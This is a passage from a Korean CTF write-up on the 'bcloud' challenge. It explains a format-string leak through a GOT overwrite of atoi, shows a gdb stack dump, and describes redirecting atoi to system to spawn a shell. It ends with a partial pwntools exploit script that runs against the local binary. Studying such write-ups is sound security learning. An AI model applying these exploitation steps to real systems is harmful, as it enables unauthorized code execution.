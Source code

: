 v2 = __readgsdword(0x14u);
get_read((int)&amp;nptr, 16, 10);
return printf(&amp;nptr);
}</code></pre></div>

<p>앞에서 언급한것 처럼 printf의 return값은 출력한 글자수 입니다. 예를들어 nptr에 &quot;A&quot;를 read로 입력했다 한다면 printf에 의해서 &quot;A&quot;가 출력될 것이고 return 1;이 될것입니다.  </p>

<p>그래서 결국에는 원하는 메뉴를 탐색할 수 있는 기능(즉 atoi의 기능)을 해치지 않고 printf를 이용할 수 있게 되었습니다.  </p>

<p><strong>이런것을 보면 참 atoi라는 함수는 익스플로잇에 많이 쓰이는 것 같네요</strong>  </p>

<p>함수를 호출하고 하다보면 스택에 라이브러리 주소가 남아있곤 합니다.</p>

<div><pre><code class="language-none">[------------------------------------stack-------------------------------------]
0000| 0xffe37370 --&gt; 0xffe37388 (&quot;%x%x %x&quot;)
0004| 0xffe37374 --&gt; 0x10 
0008| 0xffe37378 --&gt; 0xa (&#39;\n&#39;)
0012| 0xffe3737c --&gt; 0xf762a696 (&lt;__printf+38&gt;: add    esp,0x1c)
0016| 0xffe37380 --&gt; 0xf7793d60 --&gt; 0xfbad2887 
0020| 0xffe37384 --&gt; 0x6 
0024| 0xffe37388 (&quot;%x%x %x&quot;)
0028| 0xffe3738c --&gt; 0x782520 (&#39; %x&#39;)
[------------------------------------------------------------------------------]</code></pre></div>

<p>이를 이용해서 방금 atoi를 덮은 printf로 포맷스트링버그를 유발합니다. 위에 스택을 보시면 아시겠지만 인자로 &quot;%x%x %x&quot;를 주었습니다. 그렇게 되면 이와같이 출력됩니다.<br>
<code>10a f75b1696</code> &lt;__printf+38&gt;의 부분이 출력되었는데요, 이를 통해 offset계산을 하여 system의 주소를 구할 수 있습니다.<br>
그런뒤 editnote를 통해 atoi의 got를 system으로 조작해준뒤 nptr에 &quot;/bin/sh&quot;를 주게되면 쉘이 따지는 것을 확인할 수 있었습니다.</p>

<h2 id="toc_5">Exploit Code</h2>

<div><pre><code class="language-none">context.log_level=&#39;debug&#39;
one = 0x3ac5c
atoi_got   = 0x804B03C
printf_plt = 0x80484d0
s = process(&#39;./bcloud&#39;)
def makenote(length,text):
    s.sendline(&#39;1&#39;)
    s.sendline(str(length))
    s.send(text)
def editnote(ID,text):
    s.sendline(&#39;3&#39;)
    s.sendline(ID)
    print &quot;sending : &quot;,text
    s.send(text)
raw_input(&#39;go&#39;)




s.send(&quot;A&quot;*0x40)

s.recvuntil(&#39;Hey &#39;)
tmp = s.recv(0x40)
tmp = u32(s.recv(4))
top = tmp+220
print &quot;atoi got :&quot;,hex(atoi_got)
print &quot;top chunk address : &quot;,hex(top)
